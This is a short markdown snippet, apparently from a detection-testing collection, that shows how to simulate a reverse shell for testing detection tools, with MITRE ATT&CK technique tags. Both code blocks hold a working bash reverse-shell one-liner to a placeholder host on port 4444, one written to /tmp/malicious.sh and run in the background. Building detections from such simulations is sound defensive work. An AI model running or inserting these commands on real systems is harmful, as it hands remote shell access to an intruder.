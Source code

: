 # Simulate a Reverse Shell Attack for Testing Detection Tools

```sh
# Create a suspicious bash script that opens a reverse shell
echo "bash -i >& /dev/tcp/<IP_Victim>/4444 0>&1" > /tmp/malicious.sh
chmod +x /tmp/malicious.sh
/tmp/malicious.sh &
```

```sh
# Directly simulate a reverse shell using bash command
# Techniques: T1059.003 - Command and Scripting Interpreter
#             T1071 - Application Layer Protocol
bash -c "bash -i >& /dev/tcp/<IP_Victim>/4444 0>&1" &
```
